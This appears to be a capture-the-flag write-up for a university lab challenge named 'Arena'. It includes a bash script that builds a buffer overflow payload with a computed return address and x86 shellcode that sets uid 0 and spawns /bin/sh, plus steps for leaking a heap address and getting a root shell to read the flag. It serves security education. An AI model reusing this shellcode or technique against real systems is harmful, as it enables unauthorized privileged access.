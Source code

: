 
# CTF 6 - Arena

## SETUP

1. Deploy your challenge instance
1. Open ***2 Terminals*** and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. Create an empty weapon file

    ```bash
    touch weapons
    ```

1. Create a file called "gen_weapon"

    ```bash
    vi gen_weapons
    ```

1. Copy the following code into "gen_weapon"

    ```bash
    if [ $# -eq 0 ]; then
        echo "Usage: $0 <hex_address>"
        exit 1
    fi

    hex_address="$1"

    hex_address=$(printf "%x\n" $((16#${hex_address} + 4)))

    if [ ${#hex_address} -eq 7 ]; then
        hex_address="0${hex_address}"
    fi

    hex_address="${hex_address#0x}"

    little_endian=""
    for ((i = ${#hex_address} - 2; i >= 0; i -= 2)); do
        little_endian="${little_endian}\x${hex_address:i:2}"
    done

    padding_length=8186

    shellcode="\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"

    padding=$(printf 'A%.0s' $(seq "$padding_length"))

    exploit_string="98 99 $padding$little_endian$shellcode"

    echo -e "$exploit_string" > weapons
    ```

## ATTACK

1. In **Terminal 1** run the ***arena*** program

    ```bash
    ./arena/arena weapons
    ```

1. Copy paste the content of **[`player`](players)** in the terminal to create 1251 players.

    You will get the following message containing an ***address***.

    > Too many players... Kicking player '{name_of_the_player}' (0x923f470)

1. In **Terminal 2** run gen_weapons with the previous address

    ```bash
    bash gen_weapons 0x923f470
    ```

1. Then in **Terminal 1**:

    1. Press 1 to load weaponry

        ```bash
        What do you want to do? (1: load weaponry, 2: add new player, 3: fight, 4: quit) 1

        1 weapons loaded!
        ```

    1. Press 3 to start the fight. The figh migh end without popping the shell. In this case press 3 again to start the fight until the shell appear

    Once you get the shell, you can cat the flag

    ```console
    # cat arena/flag
    ```
